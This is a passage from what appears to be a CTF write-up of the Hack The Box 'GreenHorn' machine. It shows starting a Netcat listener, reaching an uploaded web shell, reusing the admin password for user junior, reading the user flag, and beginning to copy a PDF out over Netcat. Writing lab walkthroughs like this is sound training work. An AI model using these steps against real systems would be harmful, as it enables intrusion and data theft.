 From here, I started a Netcat listener and connected:

```bash

nc -lvnp PORT  
```

Afterward, I navigated to the shell:

http://greenhorn.htb/data/modules/shell/shell.php  

<img width="662" alt="Screenshot 2024-12-09 at 22 15 24" src="https://github.com/user-attachments/assets/30b153d0-1899-4e25-bcdb-723a5d385e03">

---

## Task 6: What is the junior user’s password on GreenHorn?

Exploring the home directory, I found a user named junior. 

<img width="586" alt="Screenshot 2024-12-09 at 22 17 25" src="https://github.com/user-attachments/assets/d60c4794-03f0-4211-aec2-69f0caf3f262">

Testing the admin password, I discovered it also worked for junior.


---
## User Flag


```bash

cat /home/junior/user.txt

```
---

## Task 7: Besides the user flag, what is the name of the other document in the junior user’s home directory?

In addition to the user flag, I discovered another document in the junior home directory: a PDF file.

<img width="577" alt="Screenshot 2024-12-09 at 22 18 31" src="https://github.com/user-attachments/assets/8b96fc05-4193-4523-9483-81ee51a6e21f">

---

## Task 8: What is the root user’s password?

In the junior user’s home directory, I found a PDF document containing pixelated text that appeared to hold the root user’s password. To analyze it, I transferred the file to my local machine using Netcat:

On my local machine, I opened a Netcat listener on a port:

```bash
nc -lvnp PORT > document.pdf  
```
From the junior user’s shell, I sent the file over the Netcat connection:
